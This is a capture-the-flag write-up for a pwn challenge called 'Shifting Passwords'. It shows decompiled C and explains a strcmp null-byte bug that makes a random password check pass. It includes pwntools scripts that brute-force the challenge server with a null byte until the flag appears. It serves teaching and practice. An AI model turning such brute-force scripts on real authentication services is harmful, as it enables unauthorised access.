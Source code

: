 # Shifting Passwords
- 981 points

Description
---
Here it is, a secret APOCALYPSE data bank! We even found a binary that close resembles the password verification process.

The only problem is...the password's always changing, at least we think so.

Password cracking is hard, but what if the passwords are never the same...

Interact with the service using:\n
nc chals.cyberthon22f.ctf.sg 10201

Files: [shifting_passwords](./shifting_passwords)

Solution
---
This challenge makes use of bruteforcing `/dev/urandom` thanks to the null terminating string logic bug with strcmp.

The password cracking implies that there is some bruteforcing needed. 

Looking at the main function decompiled in IDA,

```c
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Welcome APOCALYPSE! Enter the password here: ");
  fgets(s, 128, stdin);
  s2 = (char *)generate_random_password();
  if ( !strcmp(s, s2) )
  {
    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
      printf("Could not find flag.txt!");
      return 1;
    }
    fseek(stream, 0LL, 2);
    v6 = ftell(stream);
    fseek(stream, 0LL, 0);
    ptr = malloc(v6);
    fread(ptr, v6, 1uLL, stream);
    fclose(stream);
    printf("%s", (const char *)ptr);
  }
  else
  {
    puts("Wrong password!");
  }
  free(s2);
  return 0;
}
```

Despite the presence of `malloc()` and `free()`, this is not a heap challenge, and the heap is being correctly used.

Checking the `generate_random_password()` function,

```c
char *generate_random_password()
{
  char *s; // [rsp+0h] [rbp-10h]
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("/dev/urandom", "rb");
  s = (char *)malloc(0x80uLL);
  fgets(s, 128, stream);
  fclose(stream);
  return s;
}
```
A bit of googling shows that /dev/urandom is a special file used to generate random numbers.

A bit more googling for "/dev/urandom ctf" reveals that there is a small chance that /dev/urandom will return a first null byte. [https://ctftime.org/writeup/24905]

`strcmp()` makes use of null terminating strings to determine the end of a string. More explanation [here](https://github.com/absurdtiger/Sieberrsec-CTF-3.0/tree/main/Pwn/warmup).

So we can just bruteforce for the small chance a null byte is the first one in the string that returns from `/dev/urandom`.

```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        print(p.recvall())
        p.close()
```
```
$ python3 exploit.py > a.log
$ cat a.log | grep Cyberthon
```
I cleaned up the script because I like wasting time
```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        out = str(p.recvall())
        p.close()
        if out.find("Cyberthon") != -1:
                info.log(out)
                break
        else:
                continue
```

`Cyberthon{nu11_t3rm1n4t0r5}`

Remarks
---
- initially thought it was heap because malloc() and free() but it didn't mean anything and looked like it was properly used; I do wonder if it's possible to solve this challenge by exploiting the heap
